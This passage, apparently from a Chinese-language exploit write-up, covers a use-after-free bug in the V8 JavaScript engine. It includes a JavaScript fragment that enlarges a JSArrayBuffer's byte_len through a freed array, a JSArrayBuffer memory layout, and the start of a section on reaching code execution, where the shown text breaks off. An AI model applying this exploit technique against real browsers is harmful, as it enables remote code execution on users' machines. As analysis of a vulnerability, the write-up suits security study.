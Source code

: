 ```javascript
			maybe_ab_len = high32(ftou(arr_free_uaf[i][0]));
			if (maybe_ab_len == 8) {
				arrbuf_as_arr = arr_free_uaf[i];
				arr_free_uaf = null;
				arrbuf_as_arr[0] =
				utof(ftou(arrbuf_as_arr[0]) + BigInt(0x10000000000));
				break;
			}
		}
		
		if (arrbuf_as_arr == null) {
			return;
		}
		
		// maybe point to arraybuffer.byteLength
		let arrbuf = null;
		for (let i = 0; i < bufs.length; ++i) {
			if (bufs[i].byteLength != 8) {
				arrbuf = bufs[i];
				break;
			}
		}
		
		if (arrbuf == null) {
			return;
		}


	...
```

漏洞成功触发后，`arr_free_uaf` 指向的就是已经被释放了的 `arr2` 数组，它内部指向的元素如果没有被覆盖的话，此时就指向了 `ArrayBuffer` 所在的内存，那么利用 `arr_free_uaf[i]` 就可以读/写 `ArrayBuffer` 的内容。

- JSArrayBuffer
	- 0x00 map: taggedptr
	- 0x04 props: taggedptr
	- 0x08 elems: taggedptr
	- 0x0C byte_len: intptr_t
	- 0x14 max_byte_len: intptr_t
	- 0x1C backing_store: intptr_t
	- 0x24 extension: intptr_t
	- 0x2C bitfield: int32_t

`arr_free_uaf[i][0]` 相当于是 `JSArrayBuffer` 0x08 偏移处的内同，也就是 elems 和 byte_len 的低 32 位，`arrbuf_as_arr[0] = utof(ftou(arrbuf_as_arr[0]) + BigInt(0x10000000000));` 就相当于 `byte_len += 100`。

修改了 `ArrayBuffer` 的长度后，我们遍历整个 `bufs` 数组，检查 `byteLength`，定位到可以通过 `arr_free_uaf` 可以读写到的元素。

### 代码执行

上面已经得到了读写 `ArrayBuffer` 的能力，通过这个能力我们是可以利用 `ArrayBuffer` 实现任意地址读写的，但是我们要读写什么数据，来把它转换成代码执行呢？

